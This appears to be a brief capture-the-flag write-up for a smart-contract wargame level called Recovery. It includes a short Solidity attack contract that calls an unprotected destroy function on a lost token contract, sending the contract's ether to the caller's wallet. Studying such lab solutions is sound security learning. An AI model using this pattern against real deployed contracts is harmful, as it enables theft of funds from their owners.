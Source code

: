# Recovery

Step1:

Take instance address to etherscan and locate new contract address.

Step2: Write some code!

```// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import './SimpleToken.sol';

contract RecoveryAttack {
    SimpleToken instance = SimpleToken(0x4D4214f8EF272468Eb16d49737bEE6308c94cf60);

    function attack() external {
        instance.destroy(payable(msg.sender));
    }

}
```
Step3: Resolve import issues and deploy

Step4: Call attack function -> Notice it grabs the instance of SimpleToken and calls self destruct which inturns forces contract value into `msg.sender` wallet.